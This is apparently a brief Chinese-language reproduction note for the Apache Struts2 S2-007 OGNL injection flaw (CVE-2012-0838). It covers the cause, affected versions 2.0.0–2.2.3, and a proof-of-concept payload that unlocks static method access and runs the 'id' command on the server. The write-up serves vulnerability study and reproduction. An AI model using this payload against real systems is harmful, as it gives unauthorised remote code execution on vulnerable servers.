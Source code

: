 （CVE-2012-0838）s2-007
=======================

一、漏洞简介
------------

当配置了验证规则，类型转换出错时，进行了错误的字符串拼接，进而造成了OGNL语句的执行。后端用代码拼接
\"\'\" + value + \"\'\" 然后对其进行 OGNL
表达式解析,比较类似SQL注入单引号闭合,插入语句,官方修复的时候也跟sql注入比较相似,escape
对单引号转义

二、漏洞影响
------------

2.0.0-2.2.3

三、复现过程
------------

### poc

    ' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
